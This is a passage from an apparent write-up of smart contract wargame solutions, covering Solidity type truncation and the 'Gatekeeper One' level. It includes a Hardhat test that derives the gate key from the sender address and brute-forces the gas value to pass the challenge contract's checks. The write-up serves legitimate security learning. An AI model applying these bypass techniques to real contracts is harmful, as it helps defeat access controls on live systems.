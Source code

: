 ```js
uint32 a = 0x12345678;
uint16 b = uint16(a); // b will be 0x5678 now

bytes2 a = 0x1234;
bytes1 b = bytes1(a); // b will be 0x12
```

See https://docs.soliditylang.org/en/latest/types.html#explicit-conversions for more details.

### 13. Gatekeeper One

There are three gates we need to pass in this challenge.
1. `gateOne()` requires us to use an intermediary contract to call it.
2. `gateTwo()` requires the `gasleft()` to be divided by `8191`. Since we are playing locally, we can bruteforce the amount of gas sent.
3. `gateThree()` requires the passed in bytes8 `_gateKey` to fulfill a certain pattern:
```solidity
modifier gateThree(bytes8 _gateKey) {
    require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
    require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
    require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
}
```
1. Bits [32, 48) should be all zero.
2. Bits [0, 32) should be non-zero.
3. Bits [48, 64) should be equal to the last 16 bits of origin sender address.

The contract code could look something like this:
```js
it("Solves 13-GatekeeperOne", async function () {
  //...
  const [eoa] = await ethers.getSigners();
  const address = await eoa.getAddress();
  const addressLast2Bytes = address.slice(-4)
  const gateKey = `0x123456780000${addressLast2Bytes}`
  // Brute-force the gas locally.
  // const MOD = 8191;
  // const gasToUse = 100000;
  // for(let i = 0; i < MOD; i++) {
  //   console.log(`testing ${gasToUse + i}`)
  //   try {
  //     tx = await contract.attack(gateKey, gasToUse + i);
  //     break;
  //   } catch {}
  // }
  tx = await contract.attack(gateKey, 106739);
  expect(await submitLevel(await challenge.getAddress())).to.equal(true);
});

```

